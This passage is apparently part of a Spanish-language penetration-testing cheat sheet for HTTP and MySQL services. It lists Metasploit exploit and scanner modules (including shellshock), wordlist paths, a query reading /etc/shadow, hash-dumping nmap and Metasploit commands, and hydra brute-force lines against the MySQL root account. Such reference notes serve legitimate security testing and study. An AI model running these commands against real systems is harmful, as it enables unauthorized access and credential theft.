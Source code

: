 ```python
auxiliary/scanner/http/http_header
auxiliary/scanner/http/http_version
auxiliary/scanner/http/robots_txt
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/namelist.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
/usr/share/metasploit-framework/data/wordlists/common_users.txt
```

##### Metasploit
Utilidades de la herramienta todo terreno carnal

```python
use auxiliary/scanner/http/http_version
use exploit/unix/http/xdebug_unauth_exec
exploit/unix/webapp/xoda_file_upload
exploit/windows/http/badblue_passthru
exploit/multi/http/apache_mod_cgi_bash_env_exec (shellshock - cgi)
```

### MYSQL 3306
MySQL es un sistema de gestión de bases de datos relacional ampliamente utilizado. Utiliza el puerto 3306 para permitir conexiones entre aplicaciones y bases de datos, facilitando el almacenamiento y recuperación eficiente de datos estructurados.

```python
select load_file("/etc/shadow");
mysql -h IP -u root
use auxiliary/scanner/mysql/mysql_hashdump
nmap --script=mysql-empty-password -p 3306 IP
nmap --script=mysql-info -p 3306 IP
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 IP
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 IP
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql
```

#### Diccionarios
Lista de palabras para ataques de fuerza bruta

```python
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

##### Metasploit
Utilidades de la herramienta todo terreno carnal

```python
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login
```

